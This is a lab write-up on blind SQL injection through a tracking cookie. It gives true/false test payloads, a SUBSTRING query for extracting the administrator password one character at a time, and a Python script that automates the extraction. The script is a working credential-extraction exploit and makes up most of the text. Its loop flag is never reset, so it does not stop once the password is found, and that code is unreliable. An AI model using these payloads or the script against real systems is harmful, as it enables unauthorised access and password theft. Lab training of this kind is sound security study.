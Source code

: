 In this lab `Tracking Id` cookie is  vulnerable to `SQL Injection`.

You can check this using the following statements sending them with the value of `tracking id`: 
```sql
' AND '1'='1     #This will print "Welcome Back"
' AND '1'='2     #This will not print "Welcome Back"
```

We can systematically determine the password for the  given user `administrator` by sending a series of inputs to test the password one character at a time.
```sql
' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'char
```

You can use the following script to find the password:
```python
import sys
import requests
import string 
import time

if len(sys.argv) != 2:
    print(f"USAGE: {sys.argv[0]} domain")
    sys.exit(1)

URL = sys.argv[1]

dic = string.ascii_letters+string.digits
response = requests.get(URL)
tracking_id = response.cookies["TrackingId"]
#print(tracking_id)
sess_cookie = response.cookies["session"]
#print(sess_cookie)

def password(url):
    found_char = False
    pwd = ""
    i = 1
    while(True):
        print(f"Index : {i}")
        #print("Hi")
        #print(url)
        for d in dic:
            #print("Hiii")
            payload = tracking_id + "' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), "+str(i)+", 1) = '" +d
            #print(payload)
            response = requests.get(URL, headers={"Cookie":"TrackingId="+payload+"; session="+sess_cookie})
            if "Welcome back!" in response.text:
                #print("Hii")
                pwd += d
                print(pwd)
                found_char = True
                break
            time.sleep(1)
        i+=1
    
        if not found_char:
            print("Password : ",pwd)
            break

password(URL)
```
